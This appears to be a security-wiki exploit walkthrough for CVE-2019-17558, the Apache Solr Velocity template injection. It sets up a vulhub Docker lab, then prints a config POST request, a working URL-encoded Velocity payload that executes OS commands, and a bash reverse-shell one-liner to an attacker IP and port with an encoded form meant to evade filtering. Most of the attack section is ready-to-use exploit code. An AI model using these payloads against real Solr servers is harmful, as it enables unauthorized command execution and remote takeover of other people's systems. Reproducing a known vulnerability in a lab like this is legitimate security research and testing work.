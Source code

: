 ```yaml
---
title: Apache Solr Velocity template remote execution CVE-2019-17558
---
```


# Apache Solr Velocity template remote execution CVE-2019-17558

## Vulnerability Description
At the end of October 2019, security researcher S00pY in GitHub code released an Apache Solr Velocity template injection POC for remote command execution, and found a remote code execution vulnerability against the Apache Solr server on the network. 

## Affect Version
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache Solr 5.x to 8.2.0</span>

## Environment construction
```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2019-17558
docker-compose build
docker-compose up -d
```

Create a solr core test
```shell
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```
Visit http://xxx.xxx.xxx.xxx:8983/solr/ It's normal

## Vulnerability reappears
Get Core information after opening

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/eba902b3-616d-4c1d-b357-2ab754df6d8b.png)



Set `params.resource.loader.enabled to True`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/fde10f99-354f-45bf-85ab-9abab467f8c1.png)

```shell
POST /solr/test/config HTTP/1.1
Host: 

{

  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

Then use POC to cause command execution

```shell
/solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x="")+%23set($rt=$x.class.forName("java.lang.Runtime"))+%23set($chr=$x.class.forName('java.lang.Character'))+%23set($str=$x.class.forName("java.lang.String"))+%23set($ex=$rt.getRuntime().exec("whoami"))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20220307152918862.png)

Bounce hell, because some commands will be filtered and return Error 500, so rebound shell requires another rebound shell method

```
POC : /bin/bash -c $@|bash 0 echo bash -i >& /dev/tcp/xxx.xxx.xxx.xxx:9999 0>&1
```

POC requires `Urlencoding` to be encoded to bypass

```
POC ： %2Fbin%2Fbash%20-c%20%24%40%7Cbash%200%20echo%20bash%20-i%20%3E%26%2Fdev%2Ftcp%2F{IP}%2F{PORT}%200%3E%261
```
